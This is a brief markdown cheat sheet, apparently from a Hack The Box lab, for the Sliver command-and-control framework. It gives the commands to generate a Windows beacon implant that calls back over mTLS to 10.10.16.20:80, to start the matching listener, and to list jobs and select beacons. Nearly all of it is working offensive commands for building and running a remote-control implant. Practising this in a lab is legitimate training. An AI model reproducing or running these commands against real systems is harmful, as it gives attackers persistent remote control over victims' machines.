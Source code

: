 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
  
ID | Name | Protocol | Port | Stage Profile 
---------------------------------------------
 1 |  mtls |    tcp   |  80 |                 
sliver > `use beacons`    

